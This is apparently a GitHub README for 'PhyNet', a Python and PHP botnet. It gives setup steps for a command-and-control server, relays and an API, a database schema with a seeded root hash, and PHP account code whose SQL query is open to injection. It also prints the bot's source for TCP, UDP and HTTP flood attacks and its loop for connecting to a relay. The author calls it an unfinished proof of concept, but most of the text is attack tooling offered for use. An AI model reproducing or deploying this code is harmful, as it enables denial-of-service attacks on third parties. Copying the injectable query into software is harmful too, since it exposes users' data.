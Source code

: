 # PhyNet
 phynet is a botnet coded in python and php, wich is using relays for balancing bots and uses only one cnc.  
 phynet is an old project in bad languages for a botnet and actually not working, you may want to uses oldest versions, you can consider this code as a POC of a easy balanced botnet

# CNC
Def: "Command and Control" (C&C) servers are centralized machines that are able to send commands and receive outputs of machines part of a botnet. Anytime attackers who wish to launch a DDoS attack can send special commands to their botnet's C&C servers with instructions to perform an attack on a particular target, and any infected machines communicating with the contacted C&C server will comply by launching a coordinated attack.   

My cnc works with a relay (which will relay the commands to the bots to avoid an overload of the cnc server), it also works with an api which will be mainly used to register the relay servers to be able to dispatch the bots on the server having the least load, the api will also be used to login on the cnc

for setup the [cnc](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/cnc/cnc.py):  
```batch
py cnc.py 8080    
```

# RELAY
for setup the [relay](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/relay/relay.py):  
```batch
py relay.py 5000
```

# API
for setup the [api](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/api/v2), you need a database:
## API Database:
```sql
SET SQL_MODE = "NO_AUTO_VALUE_ON_ZERO";
START TRANSACTION;
SET time_zone = "+00:00";

DROP TABLE IF EXISTS `gkeys`;
CREATE TABLE IF NOT EXISTS `gkeys` (
  `gkey` text COLLATE utf8_unicode_ci NOT NULL,
  `ogkey` text COLLATE utf8_unicode_ci NOT NULL,
  `relay` text COLLATE utf8_unicode_ci NOT NULL
) ENGINE=MyISAM DEFAULT CHARSET=utf8mb3 COLLATE=utf8_unicode_ci;

DROP TABLE IF EXISTS `relays`;
CREATE TABLE IF NOT EXISTS `relays` (
  `relay_ip` text COLLATE utf8_unicode_ci NOT NULL,
  `relay_bots` int NOT NULL
) ENGINE=MyISAM DEFAULT CHARSET=utf8mb3 COLLATE=utf8_unicode_ci;

DROP TABLE IF EXISTS `users`;
CREATE TABLE IF NOT EXISTS `users` (
  `id` int NOT NULL AUTO_INCREMENT,
  `username` text COLLATE utf8_unicode_ci NOT NULL,
  `password` text COLLATE utf8_unicode_ci NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM AUTO_INCREMENT=2 DEFAULT CHARSET=utf8mb3 COLLATE=utf8_unicode_ci;

INSERT INTO `users` (`id`, `username`, `password`) VALUES
(1, 'root', '2b64f2e3f9fee1942af9ff60d40aa5a719db33b8ba8dd4864bb4f11e25ca2bee00907de32a59429602336cac832c8f2eeff5177cc14c864dd116c8bf6ca5d9a9');
COMMIT;
```
(the password encryption is sha512+sha256)   
In php you can use this function for generate an password
```php
function create_acc($usr, $pass) {

    global $conn;

    $pass=hash('sha256', $pass);
    $pass=hash('sha512', $pass);
    
    $sql="INSERT INTO users (username, password) VALUES ('$usr', '$pass')";
    $result=mysqli_query($conn, $sql);

    if ($result==TRUE) {

        echo json_encode("ok", JSON_PRETTY_PRINT);

    } else {

        echo json_encode("error", JSON_PRETTY_PRINT);

    }

}
```
Next, you need an php server for copy the api file ([SERVER/api/v1](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/api/v2))  
After you have to configure the database in the php script ([SERVER/api/v1/db_conn/db_connn.php](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/api/v2/db/db_conn.php))  
```php
$sname="localhost"; //database address
$unmae="root"; //database username
$password=""; //database password
$db_name="phybot"; //database name
$conn=mysqli_connect($sname, $unmae, $password, $db_name);

if (!$conn) {
    
	echo json_encode("db_connection_failed", JSON_PRETTY_PRINT);
}
```
You have to change your api url in:  
> the zomb ([CLIENT/zomb.py](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/bot/zomb.py)) `API_URL: str = "http://localhost/phybot/api/v1"` (L28), 
> the cnc config ([SERVER/cnc.py](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/cnc/modules/config.py)) `api_url="http://localhost/phybot/api/v1"` (L42)
> and the relay config ([SERVER/relay.py](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/relay/modules/config.py)) `api_url="http://localhost/phybot/api/v1"` (L41)

# ZOMB
you may want to compile the bot with nuitka (create a fast executable file because the python code is transpiled to c and compiled)
but the simple command for running it is:
```batch
py zomb.py
```
## ZOMB DDOS Code: 
```python
def dos(
    s: sock,
    attack: tuple[str, int],
    tps: int,
    method: str,
) -> None: # start dos attack with socket and attack target
    tps += int(time()) # set the attack time with actual time + attack time

    match method:
        case "TCP":
            log("TCP")
            while time() < tps:
                try:
                    s.connect(attack)
                    while time() < tps:
                        s.send(bytes(PAYLOAD, "utf-8"))
                except: pass

        case "UDP":
            log("UDP")
            while time() < tps:
                try:
                    s.sendto(bytes(PAYLOAD, "utf-8"), attack)
                except: pass

        case "HTTP":
            while time() < tps:
                try:
                    s.connect(attack)
                    while time() < tps:
                        s.send(f'GET / HTTP/1.1\r\nHost: {attack[0]}\r\nUser-Agent: {rand_ua()}\r\nConnection: keep-alive\r\n\r\n'.encode())

                except: s.close()

        case _:
            log("Unknown")
            while time() < tps:
                try:
                    s.sendto(bytes(PAYLOAD, "utf-8"), attack)
                except: pass
```
## The ZOMB Socket Connection
```python
c2: sock = sock(AF_INET, SOCK_STREAM)
c2.setsockopt(SOL_SOCKET, SO_KEEPALIVE, 1)

while 1:
    try:
        RELAY_ADDR: str = rget(f"{API_URL}/dispatch.php?urlkey={URL_KEY}", timeout=5000).text

        raddr.clear()
        raddr.append(RELAY_ADDR)

        c2.connect((RELAY_ADDR, RELAY_PORT))

        log((RELAY_ADDR, RELAY_PORT))

        while 1:
            data: str = c2.recv(1024).decode()

            if 'Username' in data:
                c2.send('BOT'.encode())
                log("send bot")
                break

        while 1:
            data: str = c2.recv(1024).decode()

            if 'Password' in data:
                c2.send('\xff\xff\xff\xff\75'.encode('cp1252'))
                log("send bot string")
                break

        break
    except: sleep(240)
```
